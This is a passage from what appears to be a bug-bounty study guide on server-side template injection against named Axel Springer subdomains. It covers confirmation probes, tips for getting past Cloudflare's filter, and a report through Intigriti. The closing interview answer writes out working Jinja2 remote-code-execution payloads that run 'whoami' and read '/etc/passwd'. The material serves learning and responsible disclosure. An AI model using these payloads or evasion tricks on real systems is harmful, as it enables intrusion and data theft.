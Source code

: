 3. **Confirm Evaluation**:
   - Check if `{{7*7}}` returns `49`.
   - Use DevTools to inspect responses for server data leaks.

4. **WAF Evasion (Cloudflare)**:
   - Encode payloads:
     ```url
     {{7*7}} -> %7B%7B7*7%7D%7D
     ```
   - Split payloads:
     ```url
     {{7*}}7}}
     ```

5. **Ethics**:
   - Use test accounts (e.g., `club.autobild.de`).
   - Avoid destructive RCE (e.g., `rm -rf /`).
   - Comply with Intigriti’s rules.

---

### Reporting to Axel Springer’s Bug Bounty Program

Submit via Intigriti (`https://app.intigriti.com/programs/axelspringerse/axelspringersevulnerabilitydisclosureprogram/detail`):

- **Details**:
  - Subdomain: e.g., `sportbild.bild.de`.
  - Endpoint: e.g., `/themes`.
  - Vulnerability: SSTI leading to RCE.
  - Payload: `{{7*7}}`, `{{config}}`.
  - Steps:
    1. Submitted `{{7*7}}` in search form (`/themes?q=`).
    2. Response showed `49`, confirming SSTI.
    3. Leaked config with `{{config}}`.
  - Impact: “Enables RCE, data leakage, and server compromise.”
- **Evidence**:
  - Screenshot of `49` or config data.
  - HTTP request/response showing evaluation.
- **Severity**: Critical (RCE).
- **Mitigation**:
  - Avoid `render_template_string`.
  - Enable auto-escaping and sandboxing.

---

### Advanced Interview Question
**Question**: If you find SSTI on `club.autobild.de`’s profile page, how would you verify, escalate, and report it?

**Answer**:
- **Verification**:
  - Submit `{{7*7}}` as a bio via `/profile`.
  - Confirm response shows `49`.
  - Test `{{config}}` to leak server data.
  - Use Burp Repeater to analyze responses.
- **Escalation**:
  - Inject RCE payload: `{{''.__class__.__mro__[1].__subclasses__()[396]('whoami',shell=True,stdout=-1).communicate()[0].decode()}}`.
  - Show file read: `{{''.__class__.__mro__[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].decode()}}`.
  - Highlight stored impact: “Affects all profile visitors.”
- **Reporting**:
  - Submit via Intigriti:
    - Subdomain: `club.autobild.de`.
    - Endpoint: `/profile`.